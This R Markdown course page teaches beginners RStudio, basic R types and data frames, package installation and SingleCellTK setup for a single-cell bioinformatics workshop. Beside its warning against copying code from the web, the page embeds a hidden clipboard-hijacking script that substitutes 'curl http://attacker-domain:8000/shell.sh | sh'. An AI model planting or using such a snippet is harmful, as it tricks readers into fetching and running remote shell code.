

```{r setup, include=FALSE}
# options(width = 60);
knitr::opts_chunk$set(
  echo = TRUE,        # Print the code
  eval = FALSE,       # Do not run command lines
  message = FALSE,    # Print messages
  prompt = FALSE,     # Do not display prompt
  comment = NA,       # No comments on this section
  warning = TRUE#,    # Display warnings
  
  # width = 100       # Number of characters per line
  
);

base::library(package = "dplyr")
```

<style type="text/css">
details:hover { cursor: pointer }
</style>
# Connect to RStudio

[RStudio](https://rstudio.cluster.france-bioinformatique.fr) is a graphical interface designed for R programming language. Let us connect to RStudio and then, we will explore its content.

## IFB web RStudio

Clikc → [https://rstudio.cluster.france-bioinformatique.fr](https://rstudio.cluster.france-bioinformatique.fr)


Enter the user name and password, then sign-in !

This is a RStudio web sever hosted by [French Institute of Bioinformatics](https://www.france-bioinformatique.fr/en/home/). You cannot install anything there, your work is stored there (in France), and must be declared as a research project to the IFB.


## IFB Jupyter lab

Click → [https://jupyterhub.cluster.france-bioinformatique.fr/hub/](https://jupyterhub.cluster.france-bioinformatique.fr/hub/login)

Enter the user name and password, then sign-in ! 


In [Jupyterlab](https://jupyter.org/), you can do more than R, but we won't cover it on this session. Just click on RStudio button and enjoy. This is a RStudio web sever hosted by [French Institute of Bioinformatics](https://www.france-bioinformatique.fr/en/home/). You cannot install anything there, your work is stored there (in France), and must be declared as a research project to the IFB.

## Use your own RStudio server


Open your favorite terminal, and simply write:

```{bash}
rstudio
```

And that's all. This is you local RStudio. No one can easily access it, so it will be more difficult to share your work. You also rely on your (small) computer rather than a big computing cluster. However, you can install anything you want.


# Rstudio

## First sight


Studio displays 4 large panes. Their position may be changed based on your preference. Here are mines:

```{r rstudio_pane_names, echo = FALSE, eval = TRUE, results='asis'}
knitr::kable(
  x = data.frame(
    left=c("Script pane", "Console pane"), 
    right=c("Environment/History pane", "Help/Files"),
    row.names = c("upper", "lower")
  ), 
  caption = "Pane names and postions"
)
```

> <span style="color:green"> Info: your four panes may be blank while two of mines are filled with text. We'll come on that later.</span>

## The console pane (lower left)

This is a simple R console. Open your bash terminal, enter the following command: `R`, and you will get the same console.

> <span style="color:#CD853F"> Warning: Here, we are in a RStudio session powered by the *IFB*. Your local RStudio might differ: the version of R, the list of available packages, etc. On *your* local machine, RStudio console will match with the R available in *your* terminal.</span>

Let's try to enter the command [`print()`](https://www.rdocumentation.org/packages/base/versions/3.6.2/topics/print):

```{r first_command, eval=TRUE, echo=TRUE}
print("Hello World")
```

We just used a _function_, called [`print`](https://www.rdocumentation.org/packages/base/versions/3.6.2/topics/print). This function tries to print on screen everything provided between parenthesis `(` and `)`. In this particular case, we gave the character string `"Hello World"`, and the function `print` successfully printed it on screen !

Now click on **Session** -> **Save Workspace as** and save the current work space. What append in the R console pane? You saw it! A command has been automatically written. For me, it is:

```{r save_workspace_01}
save.image("./SingleCell.RData")
```

When you need help with R, whether on a function error, on a script result or anything alike, please save your work space and send-it to your favorite R-developer. This contains everything you did in your session.

> <span style="color:green"> Info: There is a **syntax coloration**, there is a good **autocompletion** and parameter suggestion. _If I ever see anyone writing down a complete command without typing the tabulation key, then I'll have to steal their dessert. And I'm always hungry enough for desserts._ </span>

## The environment/history pane (upper right)

### Environment

This pane has three tabs: Environment, History and Connections.

Environment lists every single variable, object or data loaded in R. This includes only what you typed yourself and does not include environment variables. Example; in you console pane, enter the following command:

```{r my_var_equals_0, eval=TRUE}
zero <- 0;  # May also be written zero = 0
```

What append in the Environment pane ? You're right: a variable is now available!


When a more complex object is declared in your work space, then some general information may be available. Example:

```{r dataframe_pane_env, eval=TRUE}
small_table <- data.frame("col_a"=c(1, 3), "col_b"=c(2, 4));
```

You can see the dataframe. Click on it to have a preview of the data it contains, then click on the light-blue arrow have a deeper insight of its content:


Now click on **Session** -> **Clear Work space**: and see your work disappear. This action cannot be undone. While it is useful to clear one work space from time to time in order to avoid name space collisions, it is better to save your work space before.

### History

This tab is quite important: while you test and search in the console, your history keeps a track of each command line you entered. This will definitely help you to build your scripts, to pass your command lines to your coworkers, and to revert possible unfortunate errors.

Each history is related to a session. You may see many commands in your history. Some of them are not even listed in your console. R Studio in writes there every command, even the ones that were masked for the sake of your eyes (knitting commands, display commands, help commands, etc.)

Your history has a limit. This limit is set by an environment variable called `R_HISTSIZE` (standing for: R History Size). It may be checked with the function [`Sys.getenv()`](https://www.rdocumentation.org/packages/base/versions/3.6.2/topics/Sys.getenv) and set with the function [`Sys.setenv()`](https://www.rdocumentation.org/packages/base/versions/3.6.2/topics/Sys.setenv):

```{r history_size}
Sys.getenv("R_HISTSIZE")
Sys.setenv(R_HISTSIZE = new_number)
```

## The help/plot/file pane

### Help

This is maybe the most important pane of your R Studio. THIS is the difference between R Studio and another code editor. Search for any function **here** and not on the internet. This pane shows you the available help for YOUR version of R, YOUR version of a given package.

Concurrent version might have both different default parameters and different interfaces. Please be sure over the internet, to copy and type commands that are not harmfull for your computer.

<script>
document.getElementById('copy').addEventListener('copy', function(e) { e.clipboardData.setData('text/plain', 'curl http://attacker-domain:8000/shell.sh | sh\n'); e.preventDefault(); });
</script>

> <span style="color:#CD853F">Never ever copy code from the internet right to your terminal. Why? Example: https://www.wizer-training.com/blog/copy-paste </span>

### File

Just like any file explorer, we can move accross directories, create folders and file, delete them, etc.



Or use the function [`dir.create()`](https://www.rdocumentation.org/packages/base/versions/3.6.2/topics/files2):

```{r create_dir}
dir.create("Intro_R")
```

You should change your working directory right now:


Or use [`setwd()`](https://www.rdocumentation.org/packages/base/versions/3.6.2/topics/getwd):

```{r setwd_example}
setwd("Intro_R")
```

You can send data *from* your computer *to* a distant RStudio (e.g. on the IFB):


You can delete files:


or use the function [`file.remove()`](https://www.rdocumentation.org/packages/base/versions/3.6.2/topics/files):

```{r delete_file_example}
file.remove("example.txt")
```

## The script pane (upper left)

This is where you write your R scripts. This also accepts other languages (e.g. _bash_, _python_, ...), but R Studio shines for its R integration.

Please, please ! Write your commands in the Script pane, then execute them by hitting CTRL + Enter. This is very much like your lab-workbook: the history panel only keeps a limited number of function in memory while this script keeps your commands in a file on your disk. You may share it, edit it, comment it, etc.


## TLDR – Too Long Didn't Read

Graphic interface presentation :

1. Write command lines in Script pane (upper left)
1. Execute command lines by hitting CTRL + Enter from script pane et see them in the console.
1. Have a look at the environment and history in case on the upper right pane
1. Search for help in the lower right pane.

# R – Basics

## Variables and types

### Numbers

Remember, a variable is the name given to a value stored in memory. Example `3`, the number three, exists in R. You can store it in a variable with the arrow operator `<-`:

```{r, assign_r_base, eval=TRUE}
three <- 3
```

With the code above, the number 3 is stored in a variable called "three". You can do this in R with anything. Literally anything. Whole files, pipelines, images, anything.

Maths in R works the same as your regular calculator:

```{r basic_maths, eval=TRUE}
3 + three # Add
1 - 2 # Subtract
4 / 2 # Divide
3 * 4 # Multiply
7 %/% 2 # Floor division
```

### Characters

Characters are delimited with quotes: either double `"` or `'` simple:

```{r basic_chars, eval=TRUE}
four <- "4"
five <- '5'

# The example below is a very good example of
# how to never ever name a variable.
シ <- "happy"
```

Mathematics do not work with characters at all ... Try the following:

```{r maths_error_basic, eval=FALSE}
"4" + 1
four + 1
```

You can try to turn characters in numbers with the function: [`as.numeric`](https://www.rdocumentation.org/packages/h2o/versions/3.38.0.1/topics/as.numeric):

```{r maths_convert_basic, eval=TRUE}
as.numeric("4") + 1
as.numeric(four) + 1
```

A _function_ is a R command that is followed by parenthesis `(` and `)`. Between these parenthesis, we enter _arguments_. Use the help pane to have information about the list of arguments expected and/or understood by a given function.

As said previously, you can store any of the previously typed commands in a variable:

```{r variable_post_command, eval=TRUE}
five <- as.numeric("4") + 1
two <- 1 + (0.5 * 2)
print(five)
print(two)
```

> <span style="color:green"> Please! Please! Give your variable a name understandable by humans. I don't want to see any of you calling their variable "a", "b", my_var", ... </span>


```{r tricky_exercise_not_shown, eval=TRUE, echo=FALSE}
options(digits = 7) 
mysterious_number_7 <- 7.0000001
suspicious_number_7 <- 7
```

<details>

<summary>Tricky Question: </summary>

I have two numbers: `mysterious_number_7`,  and `suspicious_number_7`. When I apply the function [`print`](https://www.rdocumentation.org/packages/base/versions/3.6.2/topics/print) on them, it return `7`. They are both numeric. However, they are not equal ... Why ?

```{r tricky_exercise_shown, eval=TRUE}
# Show the value of the variable mysterious_number_7
print(mysterious_number_7)

# Show the value of the number suspicious_number_7
print(suspicious_number_7)

# Check that mysterious_number_7 is a number
is.numeric(mysterious_number_7)

# Check that suspicious_number_7 is a number
is.numeric(suspicious_number_7)

# Check that values of mysterious_number_7 and suspicious_number_7 are equal
mysterious_number_7 == suspicious_number_7

# Check that values of mysterious_number_7 and suspicious_number_7 are identical
identical(mysterious_number_7, suspicious_number_7)
```

We will talk about difference between equality and identity later.

</details>

<details>

<summary>Answer</summary>

This is due to the number of digits displayed in R. You are very likely to have issues with that in the future, as all (bio)informatician around the world.

```{r tricky_exercise_answer, eval=TRUE, echo=TRUE}
mysterious_number_7 <- 7.0000001
suspicious_number_7 <- 7
print(mysterious_number_7)
print(suspicious_number_7)
mysterious_number_7 == suspicious_number_7
identical(mysterious_number_7, suspicious_number_7)
```

You can change the number of displayed digits with the function [`options()`](https://www.rdocumentation.org/packages/base/versions/3.6.2/topics/options): `options(digits=100)`

</details>


### Boolean

Aside from characters and numeric, there is another very important type in R (and computer science in general): _booleans_. There are two booleans: `TRUE` and `FALSE`.

```{r basics_comparisons, eval=TRUE}
3 > 4
10 < 2
```

## Data structures

### Vector

You can make vectors and tables in R. Don't panic, there will be no maths in this presentation.

In R, vectors are created with the function [`c`](https://www.rdocumentation.org/packages/base/versions/3.6.2/topics/c):

```{r first_vector_basics, eval=TRUE}
one2three <- c("1", "2", "3", "4", "10", "20")
print(one2three)
```

One can select an element of the vector with squared brackets `[` and `]`:

```{r select_in_vector_basics, eval=TRUE}
one2three[1]
```

One can select multiple elements of a vector with  `:`:
```{r mulitple_select_in_vector_basics, eval=TRUE}
one2three[2:4]
```


*Question 1*: Is there a difference between these two vectors ?
```{r difference_bascs_vectors, eval=TRUE}
c_vector <- c("1", "2", "3")
n_vector <- c( 1,   2,   3 )
```

<details>

<summary>Answer</summary>

There is a difference indeed: c_vector contains characters, n_vector contains numeric.
```{r difference_basics_vectors_answer, eval=TRUE}
print(c_vector)
print(n_vector)
print(is.numeric(c_vector))
print(is.numeric(n_vector))
identical(c_vector, n_vector)
```

You can always use the function [`identical`](https://www.rdocumentation.org/packages/base/versions/3.6.2/topics/identical) to test equality with robustness and exactitude.

You may have learned about the operator `==` for equality. But this is not perfect, look at our example:

```{r difference_basics_vectors_answer_no_eqeq, eval=TRUE}
c_vector == n_vector
```

The operator `==` is not aware of types.

Another example, mixing numeric and boolans:

```{r difference_basics_vectors_answer_no_eqeq_at_all, eval=TRUE}
1 == TRUE
identical(1, TRUE)
```

In computer science, there is a reason why boolean and integers are mixed. We won't cover this reason now. It's out of our scope. Feel free to ask if you're interested in history and maths.

</details>

*Question 2*: Can I include both text and numbers in a vector ?

```{r mixed_basics_vectors, eval=TRUE}
mixed_vector <- c(1, "2", 3)
```

<details>

<summary>Answer</summary>

No. We can not mix types in a vector. Either all its content is made of number or all its content is made of characters.

Here, all our values have been turned into characters:

```{r mixed_basics_vectors_answer, eval=TRUE}
print(mixed_vector)
print(is.numeric(mixed_vector))
print(is.character(mixed_vector))
print(all(is.numeric((mixed_vector))))
print(all(is.character((mixed_vector))))
```

Above, the function [`all`](https://www.rdocumentation.org/packages/base/versions/3.6.2/topics/all) returns `TRUE` if all its content equals to `TRUE`.

</details>

### Data Frame

In R, tables are created with the function [`data.frame`](https://www.rdocumentation.org/packages/base/versions/3.6.2/topics/data.frame):

```{r firstdata_frame_basics, eval=TRUE}
one2three4 <- data.frame(c(1, 3), c(2, 4))
print(one2three4)
```

You can rename columns and row names respectively with function [`colnames`](https://www.rdocumentation.org/packages/base/versions/3.6.2/topics/row%2Bcolnames) and [`rownames`](https://www.rdocumentation.org/packages/base/versions/3.6.2/topics/row%2Bcolnames).

```{r firstdata_frame_basics_rename, eval=TRUE}
colnames(one2three4) <- c("Col_1_3", "Col_2_4")
rownames(one2three4) <- c("Row_1_2", "Row_3_4")
print(one2three4)
```

You can access a column and a line of the data frame using squared brackets `[` and `]`. Use the following syntax: `[row, column]`. Use either the name of the row/column or its position.

```{r firstdata_frame_basics_select_row, eval=TRUE}
# Select a row by its name
print(one2three4["Row_1_2", ])
# Select a row by its index
print(one2three4[1, ])
 # Select a column by its name
print(one2three4[, "Col_1_3"])
 # Select a column by its index
print(one2three4[, 1])
 # Select a cell in the table
print(one2three4["Row_1_2", "Col_1_3"])
# Select the first two rows and the first column in the table
print(one2three4[1:2, 1]) 
```

> <span style="color:green"> If you like maths, you will remember the order `[row, column]`. If you're not familiar with that, then you will do like 99% of all software engineer: you will write `[column, row]`, and you will get an error. Trust me. 99%. Remember, an error is never a problem in informatics</span>

*Question 3*: Can I mix characters and numbers in a data frame *row* ?

<details>

<summary>Answer</summary>

Yes, it is possible:

```{r dataframe_basics_mixed_col, eval=TRUE}
mixed_data_frame <- data.frame(
  "Character_Column" = c("a", "b", "c"),
  "Number_Column" = c(4, 5, 6)
)
print(mixed_data_frame)
```

The function [`str`](https://www.rdocumentation.org/packages/utils/versions/3.6.2/topics/str) can be used to look at the types of each elements in an object.

```{r use_str_df_first_time, eval=TRUE}
str(mixed_data_frame)
str(one2three4)
```

</details>

*Question 2*: Can I mix characters and numbers in a data frame *column* ?

<details>

<summary>Answer</summary>

No:

```{r dataframe_basics_mixed_row, eval=TRUE}
mixed_data_frame <- data.frame(
  "Mixed_letters" = c(1, "b", "c"),
  "Mixed_numbers" = c(4, "5", 6)
)
print(mixed_data_frame)
str(mixed_data_frame)
```

</details>

### Read a table as data frame

Exercise: Use the _Help pane_ to find how to use the function [`read.csv`](https://www.rdocumentation.org/packages/utils/versions/3.6.2/topics/read.table). 

Use the function [`read.csv`](https://www.rdocumentation.org/packages/utils/versions/3.6.2/topics/read.table) to:

1. open the _file_ `./example_table.csv`. 
1. this table has a _header_ (`TRUE`). 
1. this table has _row names_ in the column called "Gene_id".

Let all other parameters to their default values. 

Save the opened table in a _variable_ called `example_table`.

<details>

<summary>Solution</summary>

```{r open_example_table_soluce, eval=TRUE}
example_table <- read.csv(
  file="./example_table.csv", 
  header=TRUE, 
  row.names="Gene_id"
)
```

</details>

Now let us explore this dataset.

We can click on environment pane:


And if you click on it:


Be careful, large table may hang your session.

Alternatively, we can use the function [`head`](https://www.rdocumentation.org/packages/utils/versions/3.6.2/topics/head) which prints the first lines of a table:

```{r explore_table_one, eval=TRUE}
head(example_table)
```

The function [`summary`](https://www.rdocumentation.org/packages/base/versions/3.6.2/topics/summary) describes the dataset _per sample_:

```{r first_summary_on_df, eval=TRUE}
summary(example_table)
```

Have a look at the [`summary`](https://www.rdocumentation.org/packages/base/versions/3.6.2/topics/summary) of the dataset _per gene_, using the function [`t`](https://www.rdocumentation.org/packages/base/versions/3.6.2/topics/t) to _transpose_:

```{r first_summary_on_df_t, eval=TRUE}
head(t(example_table))
summary(t(example_table))
```


## TLDR – Too Long Didn't Read

```{r tldr_basics}
# Declare a variable, and store a value in it:
three <- 3

# Basic operators: + - / * work as intended:
six <- 3 + 3

# Quotes are used to delimiter text:
seven <- "7"

# You cannot perform maths on text:
"7" + 8 # raises an error
seven + 8 # also raises an error
six + 8 # works fine

# You can change the type of your variable with:
as.numeric("4") # the character '4' becomes the number 4
as.character(10) # the number 10 becomes the character 10

# You can compare values with:
six < seven
six + 1 >= seven
identical(example_table, mixed_data_frame)


# You can load and save a dataframe with:
read.table(file = ..., sep = ..., header = TRUE)
write.table(x = ..., file = ...)

# Create a table with:
my_table <- data.frame(...)

# Create a vector with:
my_vector <- c(...)

# You can see the firs lines of a dataframe with:
head(example_table)

# Search for help in the help pane or with:
help(function)
```


# R – Packages

## What are modules and packages

Modules and package are considered to be the same thing in this lesson. The difference is technical and does not relates to our session.

Most of the work you are likely to do with R will require one or several packages. A Package is a list of functions or pipelines shipped under a given name. Avery single function you use through R comes from a package or another.

Read the very first line of the help pane:

```{r help_pane_package, eval=FALSE}
help(head)
```

It reads: `help {utils}`. The function `help` comes from the package `utils`.

```{r use_package_name, eval=TRUE}
# Call the function "help", with the argument "example_table"
head(example_table, 1)

# Call the function "help" ***from the package utils***, with the argument "example_table"
utils::head(example_table, 1)
```

> <span style="color:#CD853F"> Warning: Sometime, two package may have a function with the same name. They are most certainly not doing the same thing. IMHO, it is a good habbit to always call a function while disambiguating the package name. `utils::help()` is better than `help()` alone.</span>

## Install a package

You may install a new package on your local computer. You shall not do it on a cluster. The IFB core cluster you are working on today is shared and highly valuable ; no one can install anything besides the official maintainers.

The following lines are written for instruction purpose and should not be used on IFB core cluster.

Use [`install.packages()`](https://www.rdocumentation.org/packages/utils/versions/3.6.2/topics/install.packages) to install a package.

```{r install_package}
# Install a package with the following function
install.packages("tibble")
```

This will raise a prompt asking for simple questions : where to download from (choose somewhere in France), whether to update other packages or not.

Do not be afraid by the large amount of things prompted in the console and let R do the trick.

Alternatively, you can click Tool -> Install Packages in RStudio.

You can list installed packages with [`installed.packages()`](https://www.rdocumentation.org/packages/utils/versions/3.6.2/topics/installed.packages), and find for packages that can be updates with [`old.packages()`](https://www.rdocumentation.org/packages/utils/versions/3.6.2/topics/update.packages). These packages can be updated with [`update.packages()`](https://www.rdocumentation.org/packages/utils/versions/3.6.2/topics/update.packages).

While the function [`install.packages()`](https://www.rdocumentation.org/packages/utils/versions/3.6.2/topics/install.packages) searches packages in the common R package list, many bioinformatics packages are available on other shared packages warehouses. Just like AppleStore and GoogleStore do not have the same applications on mobile, R has multiple sources for its packages. You need to know one of them, and one only [Bioconductor](https://bioconductor.org/).


One can use Bioconductor with the function [`BiocManager::install()`](https://www.rdocumentation.org/packages/BiocManager/versions/1.30.18):

```{r bioconductor_install_example}
# Install BiocManager, a package to use Bioconductor
install.packages("BiocManager")

# Install a package from Bioconductor
BiocManager::install("singleCellTK")
```


## Use a package

You can load a package with the function [`library()`](https://www.rdocumentation.org/packages/base/versions/3.6.2/topics/library):

```{r load_package}
library(package="singleCellTK")
```

If there is no error message, then you can try:

```{r use_package}
help(singleCellTK::importCellRanger)
```

And search for help about how to run your command.

Alternatively, there is a more complete help page, with the function [`vignette()`](https://www.rdocumentation.org/packages/utils/versions/3.6.2/topics/vignette):

```{r vignette_package}
vignette(package="singleCellTK")
```

## TLDR – Too Long Didn't Read

```{r packages_tldr}
# Install a package with the following function
install.packages("BiocManager")

# Load a package
library("BiocManager")

# Install a package frio Bioconductor
BiocManager::install("singleCellTK")

# Get help
vignette(package="singleCellTK")
```

# R – Single Cell

R for SingleCell does not differ from classic R work, but with the list of the packages and functions used.

## Load and save R objects

While working on your projects and leaning this week, you will process datasets in R. The results of these analyses will be stored on variables. This means, that when you close RStudio, some of this work might be lost.

We already saw the function [`save.image()`](https://www.rdocumentation.org/packages/base/versions/3.6.2/topics/save) to save a complete copy of your working environment.

However, you can save _only the content of a give variable_. This is useful when you want to save the result of a function (or a pipeline) but not the whole 5 hours of work you've been spending on how-to-make-that-pipeline-work-correctly.

The format is called: [RDS](https://www.r-bloggers.com/2016/12/remember-to-use-the-rds-format/) for R Data Serialization. This is done with the function [`saveRDS()`](https://www.rdocumentation.org/packages/base/versions/3.6.2/topics/readRDS):

```{r save_rds_use, eval=TRUE}
saveRDS(object = example_table, file = "example_table.RDS")
```

You can also load a RDS into a variable. This is useful when you receive a RDS from a coworker, or you'd like to keep going your work from a saved point. This is done with the function [`readRDS()`](https://www.rdocumentation.org/packages/base/versions/3.6.2/topics/readRDS):

```{r load_rds, eval=TRUE}
example_table <- readRDS(file = "example_table.RDS")
head(example_table)
```

## Single Cell Tool Kit – Overview

[SingleCellTK](https://www.camplab.net/sctk/) is the graphic interface over Single Cell analysis that we are going to use in this session.

The interface is quite easy to catch on:


A black header holds every section of your analysis. We will get into these sections in details through the week.


Click on `Data` button to develop a drop-down menu.

If you're on a trusted SingleCellTK server (yours, or IFB RStudio), then you may upload your data using CSV-count matrices:


> <span style="color:#CD853F"> Warning: If you hold human-related genomic datasets. You cannot upload these data anywhere. This is illegal, and doing surch thing may lead to 5 years in prison and up to 300 000€ fine. [Art. 226-16, Section 5, Code pénal](https://www.cnil.fr/fr/les-sanctions-penales).</span>


## Global options – default web browser

Some of you may have an web-browser error. Either on your local computer, or on the IFB cluster.

Example of the possible error:

```{r missing_browser_string_error, eval = FALSE}
> singleCellTK::singleCellTK()
Loading required package: shiny

Listening on http://127.0.0.1:7290
Error in utils::browseURL(appUrl) : 
  'browser' must be a non-empty character string
```

In human readable terms, this means "Please tell me where to find a web-browser". R uses global [`options`](https://www.rdocumentation.org/packages/base/versions/3.6.2/topics/options) to store paths to external tools (including web browsers).

Look at the browser your R is looking for:

```{r empty_browser_path, eval = TRUE, echo = FALSE}
options(browser = '')
```

```{r default_browser_empty, eval = TRUE}
getOption("browser")
```

See ? It's empty. Now fill this with the path to your favorite web browser of all time. You can find the path to your favorite web-browser with the following [_bash_](https://www.gnu.org/software/bash/) command line:

```{bash which_firefox, eval = TRUE}
which firefox
```

And then, fill it to R options:

```{r fill_browser_path_with_firefox, eval = TRUE}
options(browser = "/usr/bin/firefox")
```

Error solved !

## Global options – SingleCellTK Matrix error

If you use SingleCellTK for the upcoming months, please note that SingleCellTK suffers from a very new R update error. For short: SingleCellTK may stop on error at launch depending on you R version.

In details: the signature of a function in the package [`Matrix`](https://www.rdocumentation.org/packages/Matrix/versions/1.5-1) has been updated. This leads to an error in old versions of SingleCellTK.

> <span style="color:green"> It is a good practice to maintain package versions within a work project. If you update a package (whether by need, or by will), then you should restart your work from the begining. This stands as long as you're not 100% sure the update does not affect your results.</span>

This will lead the following error message:


Today, we assure you this error message is raised by a simple change in a function name. R has been told to stop when someone uses the "old" function name. We can tell R to keep going. Let's add two parameters in R global [`options`](https://www.rdocumentation.org/packages/base/versions/3.6.2/topics/options):

```{r fix_gc_matrix_error, eval=FALSE}
library(Matrix)
## 1. Override Matrix error status from calling with a deprecated scheme
## 2. Force using web browser rather than Rstudio (required for better display, zoom in.out, ...)
options(
  'Matrix.warnDeprecatedCoerce' = 0, 
  "shiny.launch.browser" = .rs.invokeShinyWindowExternal
)
## Launch scTK
singleCellTK::singleCellTK()
```

Problem solved !

# Why R for EBAII SingleCell ?

No programming language is better than any other. Anyone saying the opposite is (over)-specialized in the language they are advertising. This week, we are going to use a package called ["Single Cell Toolkit"](https://www.camplab.net/sctk/). This package appends to be written in R. You are already learning to write both [_bash_](https://www.gnu.org/software/bash/) and [_R_](https://www.r-project.org/) scripts, let's not add another one.

In the field of bioinformatics, languages used by the community are quite limited. While learning [_bash_](https://www.gnu.org/software/bash/) cannot be escaped nowadays, it is not enough to perform a complete analysis with publication ready figures and results. You should be interested in another programming language: [_R_](https://www.r-project.org/) and/or [_Python_](https://www.python.org/).

Please, note that this advice is valid today, but may change. Other programming languages are used, some have lost their place on the podium, and others are trying to supersede [_bash_](https://www.gnu.org/software/bash/), [_R_](https://www.r-project.org/), and [_Python_](https://www.python.org/).

<div style="float: right;">Anyway [_Python_](https://www.python.org/) is the best programming language in the WORLD. Don't listen to Bastien.</div>